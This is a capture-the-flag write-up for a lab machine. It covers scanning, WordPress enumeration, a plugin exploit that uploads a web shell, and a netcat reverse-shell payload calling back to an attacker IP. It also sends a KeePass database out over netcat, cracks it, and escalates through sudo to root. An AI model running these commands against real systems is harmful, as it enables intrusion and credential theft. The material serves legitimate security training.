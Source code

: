 1. Reconnaissance
sudo nmap -T5 -p- -vv 10.10.99.225

Result:
22/tcp open  ssh  
80/tcp open  http
Conclusion:
The server is running SSH (port 22) and HTTP (port 80). The primary focus is the web server.

2. Web Server Exploration
Directory Enumeration (ffuf)
Command:
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.99.225/FUZZ

Found:
/wordpress → WordPress site
WordPress Scanning (wpscan)
Command:
wpscan --url http://10.10.99.225/wordpress/ --enumerate vp,u
Result:
WordPress version: 6.4.3 (vulnerable)
Users: admin, everest, montblanc, chooyu, k2
Conclusion:
The WordPress instance is vulnerable. The user k2 seems promising for further access.

3. WordPress Exploitation
http://10.10.99.225/wordpress/wp-login.php
Credentials:
Username: k2
Password: th3_tall3st_password_in_th3_world (found in an email via Roundcube)

Plugin Exploitation (CVE-2021-24145)
Command:
Edit
python3 exploit.py -T 10.10.99.225 -P 80 -U /wordpress/ -u k2 -p th3_tall3st_password_in_th3_world
Result:
css
[+] Shell Uploaded to: http://10.10.99.225/wordpress/wp-content/uploads/shell.php

4. Reverse Shell Access
Netcat Listener
nc -lvnp 9001
Trigger Shell via Web Interface:
http://10.10.99.225/wordpress/wp-content/uploads/shell.php

Payload:
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc 10.10.15.194 9001 >/tmp/f
Result:
www-data@mountaineer:~/html/wordpress/wp-content/uploads$

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

5. Privilege Escalation
Searching for Interesting Files:
ls -la /home
/home/lhotse/Backup.kdbx → KeePass database
Transferring the KeePass File to Kali
nc -lvnp 9001 > Backup.kdbx

On the server:
nc 10.10.15.194 9001 < /home/lhotse/Backup.kdbx
Cracking KeePass

Extracting the hash:
keepass2john Backup.kdbx > keepass.hash
Brute-forcing the password:
john --wordlist=passwords.txt keepass.hash

Password Found

Opening the database in KeePassXC:

🏆 6. Gaining Root Access
Switching to user kangchenjunga:
su kangchenjunga
Password:....

Checking sudo permissions:
sudo -l
Result:
(ALL) NOPASSWD: /usr/bin/backup_script.sh
Exploiting the backup script:
sudo /usr/bin/backup_script.sh
Root access gained.
Flag: THM{You_Conquered_The_Tallest_Mountain}

Conclusion
By chaining vulnerabilities in WordPress and KeePass, I was able to gain root access on the target machine. The key attack vectors were:

An outdated version of WordPress with vulnerable plugins.

A weak password stored in a KeePass database.

Sensitive information retrieved from email (Roundcube) helped unlock KeePass.

Misconfigured sudo permissions enabled full privilege escalation.

Flag:THM{********************}
